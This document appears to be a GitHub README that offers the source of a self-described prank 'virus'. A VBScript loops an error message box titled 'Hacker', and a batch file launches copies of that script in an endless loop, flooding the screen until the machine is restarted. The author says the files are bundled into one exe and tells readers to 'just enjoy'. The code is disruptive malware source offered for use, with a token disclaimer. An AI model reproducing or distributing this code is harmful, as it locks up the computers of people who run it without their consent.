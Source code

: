 # Unlimited Error Message With Mouse Pointer Lock
This Is A Most Annoying Virus Created By Me (OCEAN IOF ANYTHING). In This Repositry You Will Get Fill Code Of It.
<br>
This Virus Is A Very Annoying Virus To Me. Because It Locks Mouse Pointer In One PLace.
## Only The Way To Stop The Virus Is Restarting The System
# Just Excute The Exe File To Activate The Virus.
I Binded Those 11 Files Into 1 Exe File. Just Enjoy.
# Codes

# error.vbs -|- You Can Copy And Rename Those Files INto error2,error6 etc.
```vbs
do
x=MsgBox("Hello everyone!",65,"Hacker")
loop
```
# error.bat
```bat
@echo off
:loop
start error.vbs
start error1.vbs
start error2.vbs
start error3.vbs
start error4.vbs
start error5.vbs
start error6.vbs
start error7.vbs
start error8.vbs
start error9.vbs
start error10.vbs
start error.vbs
start error1.vbs
start error2.vbs
start error3.vbs
start error4.vbs
start error5.vbs
start error6.vbs
start error7.vbs
start error8.vbs
start error9.vbs
start error10.vbs
goto loop
```



# Disclaimer

This Is A Virus, Not A Toy. So Dont Mess With It. Do Not Try On Any Responsible Hardware. Try In Your Own Responsibility I Am Not Responsible Of Any Misuse Of It.


